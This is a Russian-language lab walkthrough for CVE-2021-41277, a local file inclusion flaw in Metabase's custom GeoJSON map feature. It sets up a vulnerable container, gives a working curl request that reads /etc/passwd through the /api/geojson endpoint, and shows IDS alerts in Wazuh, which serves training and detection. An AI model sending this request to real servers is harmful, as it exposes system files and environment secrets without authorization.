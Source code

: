 # CVE-2021-41277

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277)
* [https://www.opencve.io/cve/CVE-2021-41277](https://www.opencve.io/cve/CVE-2021-41277)

Metabase — это платформа для анализа данных с открытым исходным кодом. В уязвимых версиях была обнаружена проблема безопасности с поддержкой пользовательской карты GeoJSON (admin->settings->maps->custom maps->add a map) и возможным использованием и выполнением локальных файлов (включая переменные среды). Эта проблема исправлена ​​в новой версии обслуживания (0.40.5 и 1.40.5), а также во всех последующих версиях.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:3000 будет доступна стартовая страница Metabase

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Заполните следующую информацию произвольной информацией, она не влияет на реализацию уязвимости

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Чтобы реализовать уязвимость и прочитаь файл /etc/passwd, выполните следующую команду:

```
curl -v http://ваш-ip:3000/api/geojson?url=file:////etc/passwd
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>
